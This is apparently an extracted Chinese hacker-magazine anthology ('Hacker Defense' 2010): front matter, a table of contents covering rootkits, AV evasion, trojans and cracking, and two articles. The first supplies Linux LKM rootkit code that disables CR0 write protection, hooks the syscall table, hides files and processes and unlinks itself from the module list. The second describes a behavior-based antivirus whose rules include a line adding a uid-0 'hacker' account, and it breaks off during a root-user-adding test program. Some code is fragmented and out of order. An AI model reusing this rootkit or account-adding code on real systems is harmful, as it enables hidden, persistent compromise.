# 黑客防线2010精华本（上）

---

透视黑客技术发展焦点，把握黑客攻防技术跳动脉搏，全面收录流行黑客技术。

## 黑客防线

《黑客防线》编辑部 编

## 2010

### 精华奉献本（上册）

- 黑客编程实战尖端练
- 黑器免杀与入侵进阶
- 加密与破解经典实例
- 网络安全与加固精讲



2CD-ROM

人民邮电出版社  
POSTS & TELECOM PRESS

## 黑客防线

## 2010

### 精华奉献本（上册）

《黑客防线》编辑部 编

人民邮电出版社

北京

## 图书在版编目（CIP）数据

《黑客防线》2010精华奉献本 / 《黑客防线》编辑部编. —— 北京：人民邮电出版社，2010.4  
ISBN 978-7-115-22255-8

I. ①黑…  II. ①黑…  III. ①计算机网络—安全技术  
IV. ①TP393.08

中国版本图书馆CIP数据核字（2010）第024272号

## 内容提要

《<黑客防线>2010 精华奉献本》是国内最早创刊的网络安全技术媒体之一《黑客防线》总第97期至第108期的精华文章摘要。  
《黑客防线》一直秉承“在攻与防的对立统一中寻求突破”的核心理念，关注网络安全技术的相关发展并一直保持在国内网络安全技术发展前列，经过2001年创刊至今，已经成为国内网络安全技术的顶尖媒体。《<黑客防线>2010 精华奉献本》下册选取了包括首发漏洞、特别专题、漏洞攻防、脚本攻防、溢出研究以及渗透与提取等方面的精华文章，配合两张包含1200MB安全技术工具、代码和录像的光盘，为读者阅读、理解提供了非常便捷的途径。  
本书分为上下两册（本册为下册），适合高校在校生、网络管理员、网络安全公司从业人员、黑客技术爱好者阅读。  
声明：本书所讲述的内容仅作为学习之用，切勿用于非法用途。

## 《黑客防线》2010 精华奉献本（上、下册）

- 编： 《黑客防线》编辑部
- 责任编辑：马雪伶
- 人民邮电出版社出版发行（北京市崇文区夕照寺街14号）
- 邮编：100061　电子邮件：315@ptpress.com.cn
- 网址：http://www.ptpress.com.cn
- 北京铭成印刷有限公司印刷
- 开本：787×1092 1/16
- 印张：36
- 字数：1440千字
- 印数：1-8500册
- 2010年4月第1版
- 2010年4月北京第1次印刷

ISBN 978-7-115-22255-8  
定价：49.00元（附2张光盘）  
读者服务热线：（010）67132692　印装质量热线：（010）67129223  
反盗版热线：（010）67171154  
广告经营许可证：京崇工商广字第0021号

## 致读者的话

2010年如约而至，我们如期奉上2010精华奉献本。每年一本的精华奉献本已经成为一个很响亮的品牌。精华奉献本内容源自一年12期技术月刊的精华文章汇集而成，经过了去伪存真的精选，积淀《黑客防线》一年的技术探索的精华，相关代码集中收集到光盘中，已经成为网络信息安全技术人员必不可少的参考资料。

在过去的一年里，《黑客防线》技术月刊的编发稿件理念格外强调了系统内核编程技术研究和突破创新，涌现出很多新的技术思路，出现了很多新颖独到的编码方式。从某种意义上来说，它也是一本内核编程的精华集，而且提供了完整的测试代码，有很多负责任的作者还提供了编译文件。同时，我们也注重了网络编程，特别是协议编程的技术研究。总之，加强了网络安全相关技术的核心和基础层面的探讨和创新，摒弃了抄袭和模仿，强调了原创和技术突破。

既有技术思路，又有编程实现，这对于一般的书籍是很难做到的，特别是每月一本的技术月刊每月提供这么多代码，都是靠我们集合10年来汇集起来的作者队伍不断提供新的技术形成的。可以不夸张地说，这样一本精华本在手，基本把握了一年来网络安全核心技术，重点是系统内核编程、底层驱动通信、病毒木马机制等相关技术的走向和发展趋势。特别需要说明的是，2009年是《黑客防线》技术月刊创刊10周年，这样一个年份的精华本同时也代表着我们10年技术月刊漫漫历程所达到的一个高度。

无论系统核心和底层协议，还是信息安全的相关方面，应用层的编程或者渗透检测测试，以及各方面的漏洞挖掘调试，都是强调了技术研究的内在原理和关键编码技巧。对于有一定基础的安全相关技术人员、相关专业的本科、研究生在读学生都具有很高的参考价值和实用性。在网络安全日益重要的今天，对于整个IT技术领域的技术人员来说，都具有参考价值。

需要说明的是，《黑客防线》是一本技术月刊，更多内容是在较深的技术层面做出研究和探讨，需要有一定的专业基础才能阅读参考，才能体会到这本精华本的价值。同时，我们尽量收集了每篇文章的相关代码，但不意味着都是完整的代码。如果某些文章没有相应的代码和工具附带，也许是我们的工作疏漏，也许是原作未完整提供，请读者到黑客防线网站的杂志相关频道下载。

未来的一年，我们除了坚持系统内核、底层驱动、协议缺陷、漏洞研究，还要关注嵌入式技术和跨平台编码转换，以及内网渗透工具原理的研究，希望有这些专长的读者也踊跃投稿。10年来，很多作者都是从读者开始，继而投稿，成为作者，然后又成为业内骨干技术人员。黑客防线网站是一个纯粹的技术社区，欢迎大家加入，共创技术辉煌。

本书所述的内容仅作学习之用，切勿用于非法用途。通过阅读本书，希望读者能树立良好的网络安全意识，提高网络安全防御水平。同时提醒读者，应在受控的环境（比如单独用来作为测试的计算机）里分析、使用书中的代码，切勿在企业的业务或生产网络中使用这些程序，以免造成不必要的损失。

## 《黑客防线》2010精华奉献本

## 目录（上册）

## 编程解析

- LKM方式下实现RootKit常见隐藏功能 ...... 1
- 基于进程行为的Linux反病毒软件 ...... 4
- 对抗微点的思路与实现 ...... 9
- NDIS协议驱动发送原始以太帧 ...... 14
- NDIS中间层过滤驱动修改封包 ...... 17
- 枚举CPU的全局描述符表 ...... 22
- 内核清零杀进程 ...... 25
- 内核模式简单实现进程监控 ...... 26
- 线程注入实现System权限 ...... 30
- 一种获取Shadow SSDT服务函数原始地址的思路 ...... 31
- 一种基于内存搜索的进程检测方法 ...... 35
- 基于NTFS文件系统的数据恢复程序设计 ...... 38
- 内核级驱动对抗Hook ZwSetInformationFile反删除技术 ...... 44
- Ring3下Hook ZwQueryDirectoryFile实现文件隐藏 ...... 50
- 基于混合模型的远程控制软件客户端编写 ...... 53
- Kerberos安全协议解析与编程实现 ...... 64
- PE格式分析取得ICO图标 ...... 70
- 自主研发基于文件系统的计算机反取证软件 ...... 73
- 基于混合模型的远程控制软件服务端编写 ...... 80
- Linux下拦截系统调用实现Root权限的新思路 ...... 88
- Hook全局描述符表GDT实现进程隐藏 ...... 92
- Ring0中Inline Hook Shadow SSDT实现窗体保护 ...... 96
- Ring3下全局Inline Hook实现HIPS和Rootkit功能 ...... 100
- Ring0下注册表键值的枚举与隐藏 ...... 107
- 使用通告例程监控驱动及DLL加载 ...... 111
- Ring3下实现恶意代码注入Linux内核 ...... 120
- 拦截Linux内核缺页异常实现System权限 ...... 124

## 工具免杀

- VBS玩“进程相互守护” ...... 130
- 打造404自定义增强后台扫描工具 ...... 134
- 编写删除BHO插件的程序 ...... 137
- 打造手机通话记录获取木马 ...... 140
- 编写插件管理程序之注册表快速定位 ...... 141
- 对几种驱动防火墙的简单绕过测试 ...... 143
- 禁止360安全卫士v5.0运行 ...... 145
- 获取Windows XP登录密码 ...... 146
- 编写批量在线破解MD5程序 ...... 148
- 通过还原Hive文件分析木马功能 ...... 151
- Ring0下结束KV2009 ...... 155
- 进程嵌入式木马的分析及查杀 ...... 157
- 另类下载者轻松突破瑞星2010主动防御及ESET高启发 ...... 160
- 计算机病毒行为特征分析 ...... 162

## 网络安全顾问

- 利用ext2文件属性和Linux内核能力约束加固系统 ...... 165
- 循序渐进巧解IFEO映像劫持 ...... 167
- 就“一些网民喜欢广告插件”谈IE BHO的双刃性 ...... 171
- TCP/IP堆栈指纹识别技术浅析 ...... 175
- 轻松玩转Samba服务器安全维护 ...... 178
- 点面结合轻松阻止Linux非法进程 ...... 182
- Linux桌面安全应用一点通 ...... 186
- IPv6过渡技术浅析 ...... 191
- Linux系统远程管理完全攻略 ...... 193
- 利用“爬虫”技术进行网络漏洞安全检测 ...... 196
- Linux内核编译一点通 ...... 199
- 中小型企业Web后台安全的实现 ...... 203

## 越界寻踪

- Windows Vista下动态开启Local kernel Debug的实现与分析 ...... 207
- 破解分析蟑虫军团病毒 ...... 211
- 用Debug API踩点正确注册码 ...... 223
- 网络验证的Keygen编写探讨 ...... 227
- BT3+Spoonwep2+卡王破解WEP密码 ...... 229
- 深入剖析百度空间互踩漫游大师2008的加密体系 ...... 232
- 破解BB FlashBack 2.0 ...... 235
- Easy Screensaver Maker算法分析及注册机的编写 ...... 237
- 逆向Mail PassView编写自己的Outlook密码恢复工具 ...... 242
- 从单一到通用：内存补丁的开发过程 ...... 245
- 利用动态调试器绕过网维大师还原保护 ...... 248

前置知识：C、Linux  
关键词：编程、LKM、Rootkit

## LKM方式下实现RootKit常见隐藏功能


文／图 华北电力大学 deep_pro

看了黑防2008年10期《即时Patch Linux内核——脱离LKM的实现方法》一文，让我有了学习Linux内核编程的想法。无奈限于水平，劫持Linux还是没有脱离LKM，只完成了Rootkit常见的隐藏文件、进程和模块信息的功能。

我的开发环境为Fedora 8 i386版操作系统，默认安装了大部分的开发工具和开发库，内核也是默认的2.6.23，IDE是KDevelop，2GB内存，单核P4 3.0G。

这里之所以提到内存和CPU是有原因的。因为我的CPU是单核的，没有考虑内核抢占的问题，所以如果代码在SMP上运行不稳定，就需要在关键步骤，如替换系统调用的地方加锁（个人觉得替换过程中修改了CR0寄存器，如果内核此时被抢占，恐怕会因为修改了CR0的值出问题）。至于内存大小的影响，体现在是否注意到了用户空间和内核空间的差别。如果直接使用用户空间的指针，可能因为指针指向的用户页面已被换出而导致指针失效。

LKM方式的Rootkit，一般是通过替换原来的系统调用，在自己编写的系统调用里进行过滤来实现隐藏文件和进程的，所以第一步就是要替换系统调用。参照10期的文章，LKM方式替换系统调用的经典代码如下：

```c
return old_write(fd, buf, count);

/* save old */
old_write = (void *) sys_call_table[__NR_write];
/* setup new one */
sys_call_table[__NR_write] = (ulong) new_write;
```

替换的过程就是一个等号。当然，实际情况没有这么简单，还需要解决两个难题，一是取得sys_call_table的地址，二是系统调用表是只读的，我们要使它可写。

取得sys_call_table地址的代码和原理在10期上已经给出了。虽然从2.4.18内核开始不再导出系统调用表地址，但以前黑防刊登过的《Linux2.4.18内核下的系统调用劫持》一文至今仍然有效。

在x86处理器中，CR0～CR4为控制寄存器。CR0的位16（WP）是在486后引入的。在486之前对于只读页只在Ring3层受限制，在Ring0层则无限制。486以后增加了该位，使得Ring0也会被限制写只读页。如果WP为1则不可写，为0则可写只读页。无论是Linux还是Windows，Hook内核都需要注意这一点。因为LKM工作在内核，所以可以很容易地修改CR0寄存器。清零WP位的代码如下：

```c
/* 定义函数指针，用来保存原来的sys_write系统调用 */
asmlinkage long (*old_write) (int, char *, int);
/* 定义我们的系统调用函数 */
asmlinkage long new_write(int fd, char *buf, int count) {
    printk(KERN_DEBUG "this is new sys_write");
    ...
}
```

```c
unsigned int clear_and_return_cr0(void) {
    unsigned int cr0 = 0;
    unsigned int ret;
    asm volatile ("movl %%cr0, %%eax" : "=a" (cr0));
    ret = cr0;
    /* 将CR0第16位WP清零 */
    cr0 &= 0xfffeffff;
    ...
}
```

```c
asm volatile ("movl %%eax, %%cr0"
:
: "a" (cr0)
);
return ret;
}
```

好了，现在我们就拥有了劫持系统调用的能力，该专心隐藏文件、进程和模块信息了。对应的，就要对付ls、ps和lsmod等3个命令。因为LKM是从系统调用层次过滤的，其他的GUI查看工具也会失效。使用strace命令可以跟踪程序调用的系统调用，让我们能够确定要劫持的系统调用。执行“# strace ls /root”会看到满屏的回显，其中大部分是sys_open和sys_write调用。当然，劫持它们也可以达到隐藏目的，但这种最常被调用的系统调用如果被劫持加入过滤程序，则会大大降低系统的性能。再看仔细点，就会发现在“open("/root",O_RDONLY|O_NONBLOCK|O_LARGEFILE|O_DIRECTORY|0x80000)=3”的后面有一条“getdents64(3,/* 109 entries */,4096)=3992”。

ls命令的原理是读目录文件获得该目录下的文件信息，sys_getdents64系统调用实现的就是到内核态去获得目录信息的功能（因为要支持多种磁盘格式，由内核来支持VFS）。我们要劫持它，就得先了解它。还好Linux是开源的，可以通过 http://lxr.linux.no/linux+v2.6.23.1/ 在线查看2.6.23的源代码。搜索sys_getdents64，定位到/fs/readdir.c的267行，得到其原型如下：

```c
asmlinkage long sys_getdents64(unsigned int fd, struct
linux_dirent64 __user * dirent, unsigned int count)
{...}
```

fd是文件描述符，dirent是待填充的目录结构，count大概是目录结构的最大值。注意dirent前面的__user，就是开头所说的用户空间指针标记。劫持sys_getdents64后，在新系统调用里，首先执行原来的sys_getdents64调用填充dirent结构，出错则返回。否则，在内核空间中申请一片空间将用户空间的dirent保存进来，然后在内核空间新保存dirent结构里寻找过滤词，若发现过滤词，则在内核空间保存的dirent里抹去它。最后用内核空间里的dirent结构覆盖用户空间的dirent结构，释放内核空间，返回。虽然内核没有提供用户态Libc那么丰富的库函数，但strncmp还是有的，这样比较目录名就方便了。具体的实现代码如下：

```c
asmlinkage long new_getdents64(unsigned int
fd, struct linux_dirent64 __user * dirp, unsigned int
count)
{
    unsigned int bufLength, recordLength,
    modifyBufLength;
    struct linux_dirent64 * dirp2, *dirp3,
    *head = NULL,
    *prev = NULL;

    bufLength = (*orig_getdents64)(fd, dirp, count);
    if (bufLength <= 0) return bufLength;

    dirp2 = (struct linux_dirent64 *)kmalloc(bufLength, GFP_KERNEL);
    if (!dirp2) return bufLength;

    if (copy_from_user(dirp2, dirp, bufLength)) {
        return bufLength;
    }

    head = dirp2;
    dirp3 = dirp2;
    modifyBufLength = bufLength;

    while (((unsigned long)dirp3) < (((unsigned long)dirp2) + bufLength)) {
        recordLength = dirp3->d_reclen;
        if (recordLength == 0) {
            break;
        }

        if (strncmp(dirp3->d_name, hide_dir_name, strlen(hide_dir_name)) == 0) {
            if (!prev) {
                head = (struct linux_dirent64 *)((char *)dirp3 + recordLength);
                modifyBufLength -= recordLength;
            }
        }
    }
}
```

```c
else
{
    /* 修改前一个记录长度，去掉我们要隐藏的目录 */
    prev->d_reclen += recordLength;
    memset(dirp3, 0, recordLength);
}
...
dirp3 = (struct linux_dirent64 *)((char *)dirp3 + recordLength);
...
/* 用我们修改后的文件信息覆盖原有用户空间的目录信息 */
copy_to_user(dirp, head, modifyBufLength);
kfree(dirp2);
return modifyBufLength;
```

```c
static int hide_module(void)
{
    struct module *mod_head, *mod_counter;
    struct list_head *p;
    mod_head = &__this_module;
    /* 遍历所有 module */
    list_for_each(p, &((mod_head->list).prev)) {
        mod_counter = list_entry(p, struct module, list);
        if (strcmp(mod_counter->name, __this_module.name) == 0) {
            list_del(p);
            dbgprint("remove module %s successfully.\n", __this_module.name);
            return 0;
        }
    }
    dbgprint("Can't find module %s.\n", __this_module.name);
    return 0;
}
```

测试通过后，就该对付 `ps` 命令来隐藏进程了。使用同样的方法，执行 `# strace ps`，发现获得进程信息使用的是 `sys_getdents` 系统调用，同 `sys_getdents64` 非常相似，这里就不再赘述了。

LKM 方式的 RootKit 最怕的就是 `lsmod` 命令，所以必须干掉它。参考其他方法后，直接修改内核中保存 `module` 的数据结构来实现。`module` 结构体的原型为：

```c
struct module
{
    enum module_state state;
    /* Member of list of modules */
    struct list_head list;
    /* Unique handle for this module */
    char name[MODULE_NAME_LEN];
    ...
};
```

与我们所熟悉的进程描述符 `task_struct` 一样，这里用 `list_head` 把所有的 module 结构体串成了一个双向链表。我们可以从本模块入手，遍历所有 module，看到不爽的名字，就可以删除了。详细的实现代码如下：

至此，我们 3 个主要目的就都完成了。如图 1 所示，3 个隐藏目标都实现了，顺带本模块也不能被 `rmmod` 了。因为内核里保存其信息的结构被我们和谐了。后续还可增加网络通信等功能，并不再使用 LKM 方式，最终做成开源 Rootkit。



最后，我们还要注意 `printk`。作为 RootKit，输出内核信息会影响系统性能，增加被发现的可能；更重要的是 `printk` 会引发中断，在某些情况下可能对 RootKit 产生不可预知的影响，因此有必要时最好使用内核同步机制来防止此类影响。

（编译提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：C，Linux

关键词：进程、行为采集、行为分析

### 基于进程行为的 Linux 反病毒软件



文/图 西邮猎手（王聪）

随着病毒技术的迅猛发展，传统的安全软件对于新病毒的反应迟钝，特征代码库的更新则依赖于软件供应商搜集最新病毒信息并分析提取特征码，这样就导致了反病毒技术总是滞后于病毒的产生。可见，传统的安全软件已经不能适应当前的需要。

本文要编写的软件是一个基于进程行为的反病毒软件。它是在 Linux 内核环境下使用多线程技术采集相关数据，并对数据进行分析处理，得到所有进程的实时信息（包括其对文件、内存、网络等的操作），将这些信息输出到监控程序，以跟踪进程的行为所获得的记录文件为基础，以定义的规则为依据，对两者进行比较与分析，来判断是否遭到恶意攻击或病毒感染，从而达到实时监控发现病毒的目的。

本软件共有 4 个部分，`trace.c`（行为采集模块，主要负责获取所有进程的系统调用函数及传递的参数），`rule.conf`（规则定义模块，可以自定义病毒行为的配置文件），`rule.c`（行为分析模块，对比获取的系统调用信息和自定义的病毒行为，判断是否为病毒）和 `mainWindow.cpp`（显示模块，一个基于 QT 的窗口，可以显示所有进程系统调用的实时信息）。

下面来看一看这几个模块具体是如何实现的。

先读取 `/proc` 目录中的数字子目录来获得所有进程的 PID，然后用 `strace` 跟踪每个进程，将得到的系统调用信息作为日志保存下来。接着用一个死循环不停地监控 `/proc` 目录，来判断是否有新的进程产生；若有新的进程产生，则使用 `pthread_create` 函数启动一个新的线程，并跟踪新产生的进程。在跟踪进程前先要排除程序本身，否则自己跟踪自己就乱套了。由于要给用户显示可疑进程对应的可执行文件的具体位置，所以还要用 `read` 函数来获得 `/proc` 中每个进程目录下 `cmdline` 文件的内容。

#### 行为采集模块

我们知道，Linux 系统的 `/proc` 目录里的那些数字子目录，其目录名实际上是每个进程的 PID，于是我们可以用 `readdir` 函数读取目录中的数字……

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <pthread.h>
#include <dirent.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <fcntl.h>
#define MAX_PID 500

struct pid_i {
    pid_t pid;
    char strace_buf[100]; /* strace 指令 */
} pid_i[MAX_PID];

void get_syscall(pid_i)
{
    struct pid_i *pid_i;
    memset(pid_i[0].strace_buf, 0, 100);
    sprintf(pid_i[0].strace_buf,
            "/usr/bin/strace -o log/%d.log -p %d 2>/dev/null",
            pid_i[0].pid, pid_i[0].pid);
    /* /usr/bin/strace -o log/[<pid>].log -p [<pid>] */
    system(pid_i[0].strace_buf);
}
```

```c
pthread_exit(0);

int main(int argc, char *argv[])
{
    pthread_t tid[MAX_PID];
    int i, k = 0, low, high, ret, m, n;
    pid_t pid, n;
    struct stat st;   /* 文件属性 */
    size_t fsize;     /* 文件大小 */
    char cmd_file[100];
    char buf[1024];
    char cmdline[1024];
    char pid_cmd[1024];
    DIR *dir;
    struct dirent *ptr;
    FILE *cmdf;
    int fp;

    dir = opendir("/proc");
    cmdf = fopen("cmd.txt", "w");
    while ((ptr = readdir(dir)) != NULL)
    {
        /* 省略，详见源代码 */
    }
}
```

```text
NAME:Add a user
LINE:2
open("/etc/passwd" ...)
write(3, ...)
}
##### 改变文件属组
# chown32("/etc/passwd", 501, 501) = 0
{
NAME:Change file's owner
LINE:1
chown32("/etc/passwd", ...)
}
##### 改变文件权限
# chmod("/etc/passwd", 0666) = 0
# -rw-rw-rw-
{
NAME:Change file's modify
LINE:1
chmod("/etc/passwd", ...)
}
```

#### 规则定义模块

这个文件是方便用户自己来定义规则的配置文件，以“#”开头的行是注解。“NAME”后面是每条规则的名字，当发现可疑进程时，会将其显示在终端上。“LINE”后面的数字定义这条规则共有几行，本软件是根据行数来逐行匹配的。“LINE”下的内容就是根据可疑进程所使用系统调用函数的规律来定义的，它们与我给的测试病毒相对应，具有一定的局限性。不过这种基于行为的反病毒软件，就是要根据新的行为及时地添加新的规则。

```text
#{
#NAME:规则名称
#LINE:匹配条数
##### 匹配1
##### 匹配2
##### 匹配3
# ......
#}

##### 添加账号
# open("/etc/passwd", O_WRONLY|O_CREAT|O_APPEND, 0666) = 3
# write(3, "hacker:0:0:hacker:/home/wangcong", 44) = 44
{
...
}
```

#### 行为分析模块

前面我们已经有了每个系统调用信息和自己定义规则的配置文件，下面的模块我们先使用 `get_rule` 函数将每条规则读到 `conf` 结构体中，然后用 `get_log` 函数读取系统调用信息，将这些进程信息的每一行和 `conf` 结构体中的内容进行匹配，若匹配成功，就可以认定该进程为可疑进程，最后调用 `treatment` 函数来进行处理。此程序 `treatment` 函数的功能只是将可疑进程的路径和其行为显示出来，大家还可以添加其他的功能，比如将可疑程序删除，更进一步，还可以根据日志对可疑进程修改的文件进行恢复。

```c
struct conf {
    char name[100];   /* 规则名称 */
    int line;         /* 匹配条数 */
    char rule[10][buf_MAX];
} conf[rule_MAX];

struct thr {
    char logfile[50]; /* 日志名 */
    char fpath[100];  /* 日志路径 */
    char pid[10];     /* PID */
    FILE *lfp;        /* 日志文件 */
    FILE *cmdf;       /* PID 和 cmdline */
    char cmd_buf[512];
    char s_log[buf_MAX]; /* 日志记录 */
} thr[thread_MAX];
```

```c
int treatment(char *cmd, char *pidd, char *rule_name)
{
    printf("CMD=%s pid=%s\t %s\n\n", cmd, pidd, rule_name);
}
......省略，详见源代码......

get_rule()  /* 从配置文件读取规则 */
{
    int i, j, k;
    int line, n;
    FILE *rfp;
    char buf[buf_MAX];
    if ((rfp = fopen("rule.conf", "r")) == NULL)
    {
        printf("打开配置文件错误!\n");
        exit(-1);
    }
    for (n = 0; n < rule_MAX, !feof(rfp); )
    {
        fgets(buf, buf_MAX, rfp);
        if (buf[0] == '#' || buf[0] == ' ' || buf[0] == '\n')
            /* 注释行或空格或空白行 */
            continue;
        if (buf[0] == '{') /* "{" 规则开始 */
        {
            for (line = 0; line < 10; )
            {
                fgets(buf, buf_MAX, rfp);
                if (buf[0] == '#' || buf[0] == ' ' || buf[0] == '\n')
                    /* 注释行或空格或空白行 */
                    continue;
                if (buf[0] == 'N' && buf[1] == 'A' && buf[2] == 'M' && buf[3] == 'E' && buf[4] == '=')
                {   /* 规则名称 */
                    strncpy(conf[n].name, buf + 5, 100);
                    continue;
                }
                if (buf[0] == 'L' && buf[1] == 'I' && buf[2] == 'N' && buf[3] == 'E' && buf[4] == '=')
                {   /* 匹配参数 */
                    conf[n].line = atoi(buf + 5);
                    continue;
                }
                if (buf[0] == '}')   /* "}" 规则结束 */
                    break;
                strncpy(conf[n].rule[line], buf, buf_MAX);
                /* 读取匹配行 */
                conf[n].rule[line][strlen(conf[n].rule[line]) - 1] = '\0';
                /* 去掉串尾 '\n' */
                line++;
            }
        }
        n++;  /* 下一组规则 */
```

```c
}
fclose(rfp);
}
......省略，详见源代码......
}
```

#### 显示模块

这个模块实际上是使用下面的函数把每个日志文件的最后一行信息显示在一个窗口里，只是有个图形界面看起来方便，对实际的反病毒没有帮助。如果要考虑此软件的性能，可以不编译它。

```c
void MainWindow::refurbish()
{
    pidListWidget->clear();
    pidListWidgetItem = new QListWidgetItem(QIcon(":/blank.png"), tr("NAME\t\t\t\t") + tr("PID \tSYSCALL"), pidListWidget);
    pidListWidgetItem->setBackground(Qt::cyan);
    int flag_color = 1;
    FILE *fp;
    FILE *fp3;
    char line3[123];
    int i = 0;
    DIR *dir;
    char logname[30] = "";
    struct stat st;   /* 文件属性 */
    size_t fsize;     /* 文件大小 */
    char p_name[128] = "";
    char pid[10] = "";
    char pid2[200] = "";
    struct dirent *ptr;
    dir = opendir("log/");
    while ((ptr = readdir(dir)) != NULL)
    {
        if ((!strcmp(ptr->d_name, ".")) || !strcmp(ptr->d_name, ".."))
            continue;
        memset(logname, 0, sizeof(logname));
        strcat(logname, "log/");
        strcat(logname, ptr->d_name);
        stat(logname, &st);
        fsize = st.st_size; /* 获取文件大小 */
        if (fsize == 0)
            continue;
        fp = fopen(logname, "r");
        if (fp == NULL)
        {
            printf("Fp = NULL\n");
            break;
        }
    }
}
```

> ……省略，详见源代码……

#### 自定义规则

想要自己定义规则，就要先知道病毒进程使用了哪些系统调用函数。我们先自己编写一个添加 root 用户的程序，当具有 root 权限的用户运行此程序后，就会自动添加一个用户名为 hacker 的根用户。

```c
#include <stdio.h>
main()
{
    FILE *fp;
    while (1)
    {
